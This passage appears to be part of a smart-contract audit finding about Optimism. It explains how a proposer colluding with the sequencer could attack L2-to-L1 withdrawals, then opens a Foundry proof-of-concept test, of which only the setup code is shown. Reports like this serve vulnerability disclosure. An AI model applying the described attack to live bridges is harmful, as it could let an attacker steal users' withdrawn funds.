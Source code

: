 The impact goes way higher when **the proposer is teamed up with the sequencer**, this means that the same actor, can exactly know the nonces, and can make sure they land on the block after some checkpoint while enabling the attacker to attack withdrawals that originate from L2. Optimism decides to start off by delegating the sequencer and the proposer to the same trusted entity, this means that as long as this attack exists, users should trust the Optimism entities instead of owning their own collateral on L2.

## Code Snippet
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.15;


import "../L1/L2OutputOracle.sol";
import "../L1/OptimismPortal.sol";
import "../libraries/trie/SecureMerkleTrie.sol";

import "../libraries/Types.sol";
import "../libraries/Hashing.sol";

import "forge-std/Test.sol";

contract PoC is Test {

    address public proposer;
    address public challenger;
    address public user;

    uint256 constant public startTime = 1000;
    uint256 constant public startBlock = 100;
    uint256 constant public submissionInterval = 10;
    uint256 constant public l2BlockTime = 2;

    L2OutputOracle l2OutputOracle;
    OptimismPortal optimismPortal;


    function setUp() public {

        proposer = mkaddr("proposer");
        challenger = mkaddr("challenger");
        user = mkaddr("user");

        vm.warp(startTime);
        vm.roll(10);

        l2OutputOracle = new L2OutputOracle(
                    submissionInterval,
                    l2BlockTime,
                    startBlock,
                    startTime,
                    proposer,
                    challenger
        );

        optimismPortal = new OptimismPortal(
            l2OutputOracle,
            7 days
        );
    }

    function test_faultyProposer() public {
        address sender = mkaddr("sender");
```
